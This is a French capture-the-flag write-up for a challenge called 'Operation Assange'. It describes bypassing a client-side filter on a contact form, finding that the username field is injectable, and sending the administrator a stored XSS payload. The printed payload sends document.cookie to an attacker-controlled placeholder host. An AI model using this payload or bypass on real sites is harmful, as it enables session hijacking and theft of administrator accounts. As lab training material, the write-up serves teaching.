






# Operation Assange
> Auteur : Al-oxos

## Recon

La description du challenge nous indique qu'un site web vient d'être découvert et qu'il contient des informations sensibles. Plus particulièrement, il nous est indiqué que l'administrateur est très vigilant au formulaire de contact et qu'il est extrêmement actif.
Nous pouvons alors assez simplement en déduire que le challenge va consister à trouver un moyen de faire exécuter quelque chose à l'administrateur du site web pour obtenir des informations sensibles qu'il pourrait cacher.



En nous rendant sur l'application, nous pouvons voir différentes pages (rien de très intéressant, seulement du lore...) ainsi que la fameuse page de contact qui permet d'envoyer un message à l'administrateur en entrant un pseudonyme ainsi que le message à transmettre. Il est également possible de prévisualiser le message avant de l'envoyer comme l'administrateur pourrait le voir en le recevant.





Le challenge semble désormais plutôt clair, il va falloir réussir à envoyer une XSS à l'administrateur pour qu'il l'exécute et nous fournisse des informations sensibles (en l'occurence ici récupérer le cookie de l'administrateur car on nous indique qu'il serait intéressant de récupérer l'accès administrateur...). Pour cela, nous allons devoir trouver un moyen de faire exécuter du code javascript à l'administrateur en utilisant le formulaire de contact.
Un filtre est en place sur ce fameux formulaire, il est solide (enfin normalement...) mais est réalisé côté client, il suffit donc d'intercepter la requête ou d'utiliser l'onglet network du navigateur pour pouvoir le contourner. 
Une fois cette "sécurité" contournée, il ne reste plus qu'à tester des payloads de xss classique et de vérifier leur fonctionnement via la prévisualisation du message.
En testant un petit peu, on découvre que le champ username est injectable mais pas le message. Il est donc possible d'envoyer un message à l'administrateur contenant un payload de xss.



## Challenge solve

Maintenant que nous savons qu'il est possible d'injecter une xss dans le champ username, il ne reste plus qu'à trouver un moyen de récupérer le cookie de l'administrateur. Pour cela, nous allons utiliser un payload de xss classique qui va nous permettre de récupérer le cookie de l'administrateur et de le transmettre à notre serveur.

Payload : 
```javascript
<script>document.location="http://votreip:port/?c=".concat(document.cookie)</script>
```



En attendant un petit peu, nous obtenons une requête qui contient le cookie de l'administrateur et nous pouvons récupérer le flag.




